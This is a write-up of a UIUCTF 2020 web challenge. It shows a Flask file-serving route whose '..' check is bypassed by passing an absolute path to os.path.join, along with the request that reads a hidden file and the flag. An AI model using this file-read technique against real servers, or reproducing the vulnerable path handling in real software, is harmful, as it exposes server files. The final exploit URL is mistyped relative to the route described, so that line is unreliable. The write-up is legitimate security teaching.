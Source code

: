 # UIUCTF 2020  
## security_question

Writeup by **ranguli**

Challenge by **Husinocostan**

_Someone just asked a very interesting question online. Can you help them
solve their problem?_

The challenge link `https://security.chal.uiuc.tf/` brings us to a fake  
StackOverflow page with the poster complaining that their friend was able to  
access the `hidden_poem.txt` file in the root directory (`/`) on the server.
They post the following code snippet looking for help:

```python  
@app.route('/getpoem')  
def get_poem():  
   poemname = request.args.get('name')

   if not poemname:  
       return 'Please send a name query:\n' + str(os.listdir('poems')), 404

   poemdir     = os.path.join(os.getcwd(), 'poems')  
   poempath    = os.path.join(poemdir, poemname)

   if '..' in poemname:  
       return 'Illegal substring detected.', 403

   if not os.path.exists(poempath):  
       return 'File not found.', 404

   return send_file(poempath)  
```

In this Python code we see a route defined `/getpoem` assigned to the
`get_poem()` function.

```  
@app.route('/getpoem')  
```  
We also see `poemname` being assigned as query parameter.

```  
poemname = request.args.get('name')  
```

If we try the endpoint `https://security.chal.uiuc.tf/getpoem?name` we get the
following response:

```  
Please send a name query: ['rise.txt', 'daddy.txt', 'tyger.txt', 'road.txt']  
```

The Python code that causes the trouble here is in the joining of paths.

```  
poemdir     = os.path.join(os.getcwd(), 'poems')  
poempath    = os.path.join(poemdir, poemname)  
```

In the 2nd line we see that the `poemdir` directory and `poemname` file are  
being joined to created a path. If we evalute this line of code in a REPL, we  
get the following:

```  
>>> import os  
>>> poemdir = os.path.join(os.getcwd(), 'poems')  
>>> poemdir  
'/home/user/poems'  
```

We know that `poemdir` is the `poems` subdirectory inside the current working
directory. Keep in mind that our interest is in the root `/` directory to get
`hidden_poem.txt`. Another join is performed is the name of the file.

```  
>>> poemname = "poem.txt"  
>>> poempath = os.path.join(poemdir, poemname)  
>> poempath  
'/home/user/poems/poem.txt'  
```

Because of the way that `os.path.join()` works, if we set `poemname` to
`/hidden_poem.txt`, we won't get:

```  
/home/user/poems//hidden_poem.txt  
```

Instead we'll actually just get:

```  
/hidden_poem.txt  
```

Which is the path we want. We can try passing this in as the query parameter:

`https://security.chal.uiuc.tf/getpoem/name?=/hiddenpoem.txt`

And we get the flag!

```  
uiuctf{str_join_is_weird_in_python_3}  
```

**Original writeup here:**
[https://github.com/ranguli/writeups/blob/master/uiuctf/2020/security_question.md](https://github.com/ranguli/writeups/blob/master/uiuctf/2020/security_question.md)  

Original writeup
(https://github.com/ranguli/writeups/blob/master/uiuctf/2020/security_question.md).